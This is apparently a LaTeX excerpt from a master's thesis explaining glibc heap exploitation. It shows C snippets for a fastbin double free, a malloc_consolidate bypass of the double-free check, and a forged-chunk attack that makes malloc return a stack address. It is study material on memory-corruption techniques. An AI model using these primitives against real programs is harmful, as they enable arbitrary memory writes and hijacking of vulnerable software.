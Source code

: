 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\mallocc{\lstinline{malloc}}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(b);
free(a);
a = calloc(1, 8);
b = calloc(1, 8);
c = calloc(1, 8);
\end{lstlisting}

In the previous example, we used small chunk allocation. What is happen if we request a larger chunk? considering below example on \libc{-2.23}:

\begin{lstlisting}[language=c,frame=tlrb]
void* p1 = malloc(0x40);
void* p2 = malloc(0x40);
free(p1);
void* p3 = malloc(0x400);
free(p1);
\end{lstlisting}

The thirds \mallocc{} have a significant memory allocation; this allocation triggers another method call \lstinline{malloc_consolidate} automatically. \mallocc{} In this situation, consolidate chunks in the fast bin before continuing, then put the resulting merged chunks on the \ub{}.
Such behavior is that we have another solution to bypass the fast bin double-free security check. It is possible to use \mallocc{} with a big size instead of free another chunk in the middle of two free. The third \mallocc{} moves chunk from fast bin to unsorted; as a result, when the second free request arrives, there is no chunk inside the \fb{}. We can implement a double-free attack. In the final layout, we have \lstinline{P1} on both \fb{} and \ub{}. Move \fb{} chunks to \ub{} by a big size memory allocation is a simple approach which uses by other attack methods too.

\section{Forged Chunk}
Freeing up a chunk does not prevent access to it because the pointer still exists in the application, so we can implement an attack on the heap data structure by controlling the pointer . Below code shows how we can return our forged chunk instead of a real heap chunk:

\begin{lstlisting}[language=c,frame=tlrb]
struct forged_chunk {
size_t prev_size;
size_t size;
struct forged_chunk *fd;
struct forged_chunk *bck;
char buf[10];  // padding
};
a = malloc(10);  // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk; // At address 0x7ffc6de96690
chunk.size = 0x20;
data = (char *)&chunk.fd;
strcpy(data, "attacker's data");

free(a); // Put the fast chunk back into fastbin

// Modify 'forward' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;

// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);   // Will return 0x219c010
victim = malloc(10);  // Points to 0x7ffc6de966a0
\end{lstlisting}
\end{document}
